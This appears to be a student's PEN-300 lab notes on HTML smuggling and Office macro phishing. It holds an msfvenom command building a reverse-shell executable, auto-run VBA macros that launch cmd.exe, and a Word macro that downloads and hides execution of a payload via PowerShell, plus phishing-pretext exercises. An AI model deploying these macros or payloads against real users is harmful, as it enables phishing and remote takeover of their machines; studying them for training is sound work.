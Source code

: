 # HTML smuggling

remember to use staged payload instead of non staged ones in meterpreter.

finally used 

```
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.6.12 LPORT=4444 -f exe -o /var/www/html/msfstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/msfstaged.exe
                                                                                                                                                                                                                                 
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ base64 /var/www/html/msfstaged.exe

```
check the code : using new_html.html

### 3.1.3.1 Exercises
1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format 
of your choosing.

2. Modify the smuggling code to also use the window.navigator.msSaveBlob62,63 method to 
make the technique work with Microsoft Edge as well.

The explot works in msedge also without any change.

# phishing with microsoft office

installing microsoft office 2016 from : `https://office-2016.fileplanet.com/download` - not verified.

### 3.2.1.1 Exercise
1. Install Microsoft Office on your Windows 10 client VM
done

## introduction to vba

creating a macro - view > macros

Leveraging existing methods like Document_Open() and AutoOpen()


```
Sub ss()
'
' ss Macro
'
'

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

End Sub

```

macro for calling cmd.exe

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub

```

Remember to save docx macro compatible.

## 3.2.2.1 Exercises
1. Experiment with VBA programming basics by creating a small macro that prints the current 
username and computer name 5 times using the Environ$ function.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim iCnt As Integer
    Dim sEnvVariable As String
    
    MsgBox Environ("USERNAME") + Environ("USERNAME")
     
End Sub

```

2. Create an Excel macro that runs when opening an Excel spreadsheet and executes cmd.exe 
using Workbook_Open

```
Sub Workbook_Open()
    myMacro

End Sub


Sub myMacro()
    MsgBox ("yello")
End Sub

```
# Let Powershell help us

Powershell is rendered on th efly using .NET framework

using powershell to do a download and execute script

`PS C:\Users\aonno> (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', `

using a word macro to execute powershell script

```
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object 
System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 
'msfstaged.exe')"
 Shell str, vbHide
 Dim exePath As String
 exePath = ActiveDocument.Path + "\msfstaged.exe"
 Wait (2)
 Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
 Dim t As Date
 t = Now
 Do
 DoEvents
 Loop Until Now >= DateAdd("s", n, t)
End Sub
Listing 3
```

### .2.3.1 Exercises
1. Replicate the Word macro to obtain a reverse shell. Implement it in Excel.

2. Experiment with another PowerShell download cradle like Invoke-WebRequest.

```
PS C:\Users\aonno> Invoke-WebRequest "https://raw.githubusercontent.com/fanbyprinciple/pen300/master/README.md"


StatusCode        : 200
StatusDescription : OK
Content           : # pen300
                    
                    Repository for doing pen300 exercises.
                    Need to start with book.
                    
                    Will add multiple folders for various blogs/ resources.
                    
RawContent        : HTTP/1.1 200 OK
                    Connection: keep-alive
                    Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
                    Strict-Transport-Security: max-age=31536000
                    X-Content-Type-Options: nosniff
                    ...
Forms             : {}
Headers           : {[Connection, keep-alive], [Content-Security-Policy, default-src 'none'; style-src 'unsafe-inline'; sandbox], 
                    [Strict-Transport-Security, max-age=31536000], [X-Content-Type-Options, nosniff]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : mshtml.HTMLDocumentClass
RawContentLength  : 131
```

# Keeping up appearances

how to base64encode content using macro

### 3.3.2.1 Exercises
1. Create a convincing phishing pretext Word document for your organization or school that 
replaces text after enabling macros.
2. Insert a procedure called MyMacro that downloads and executes a Meterpreter payload after 
the text has been switched

# Executing shellcode in word memory

We shall try to execute payloads directly from memory












